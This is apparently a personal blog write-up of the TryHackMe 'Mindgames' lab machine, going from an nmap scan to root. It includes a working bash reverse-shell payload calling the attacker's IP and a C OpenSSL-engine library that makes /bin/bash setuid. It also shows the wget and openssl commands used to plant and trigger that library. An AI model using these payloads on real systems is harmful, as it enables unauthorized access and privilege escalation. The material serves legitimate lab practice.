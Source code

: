 ```yaml
---
date: 2020-06-12 21:12:32
layout: post
title: "Mindgames"
subtitle: Hard Machine from Tryhackme
description: 
image: /writeup/assets/img/mindgames/mindgames.png
optimized_image:
category: tryhackme
tags: hard
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/mindgames">Link</a> to the machine on tryhackme.

I started with the nmap scan to look for open ports.
```bash
nmap -T4 -p- -A 10.10.132.232
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 03:14 IST
Nmap scan report for 10.10.132.232
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   326.10 ms 10.9.0.1
2   326.18 ms 10.10.132.232

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.36 seconds

```

Found 2 open ports. Accessed the site hosted on port 80 to find obfuscated text called Brainfuck programming language.
![placeholder](/writeup/assets/img/mindgames/site.png "site")
Decrypted the examples given on site using <a href="https://www.dcode.fr/brainfuck-language">Dcode.fr</a>
![placeholder](/writeup/assets/img/mindgames/print.png "helloworld")

The Brainfuck code translated into the python3 commands and those commands were executed.

Created a payload of python reverse shell in Brainfuck language by using this <a href="https://copy.sh/brainfuck/text.html">Website</a>
```python3
import os

os.system('bash -c "bash -i >& /dev/tcp/10.9.12.192/8888 0>&1"')
```
![placeholder](/writeup/assets/img/mindgames/payload.png "payload")

Executed the payload through the website homepage to get a reverse shell.

Got the user shell and found the user.txt

Ran Linpeas on the machine and found some interesting capabilities.
![placeholder](/writeup/assets/img/mindgames/cap.png "capabilities")
 
 So the openssl binary was given interesting permission *setuid*
 
 Went to GTFObins and found that openssl command can be used to load specific shared libraries to execute commands.
![placeholder](/writeup/assets/img/mindgames/so.png "sharedlibrary")

Tried to create a .so file from simple c++ code. But falied.

Found this <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/">page</a> and used the code from it to create .so file.
```c
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod u+s /bin/bash");      #Makes /bin/bash SUID binary
  system("echo done");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Made a shared library out of this c++ code.
```bash
gcc -c fPIC test.c -o test
gcc -shared -o test.so -lcrypto test
```

Uploaded the file to the machine using wget,
```bash
wget http://10.9.12.192/test.so
``` 
Executed the following command from GTFObins to run my payload.
```
openssl req -engine /home/mindgames/test.so
```
![placeholder](/writeup/assets/img/mindgames/rce.png "rce")
This made the bash binary a SUID binary.

```bash 
bash -p
```
Got the root shell and found root.txt.
![placeholder](/writeup/assets/img/mindgames/root.png "root") 
